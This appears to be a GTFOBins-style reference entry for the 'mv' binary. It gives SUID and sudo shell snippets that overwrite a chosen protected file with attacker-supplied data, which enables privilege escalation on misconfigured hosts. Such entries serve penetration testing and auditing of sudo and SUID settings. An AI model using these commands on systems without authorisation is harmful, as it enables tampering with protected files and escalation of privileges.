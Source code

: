 ```yaml
---
description: This can be used to move and then read or write files from a restricted file systems or with elevated privileges.
functions:
  suid-enabled:
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        ./mv $TF $LFILE
  sudo-enabled:
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        sudo mv $TF $LFILE
---
```

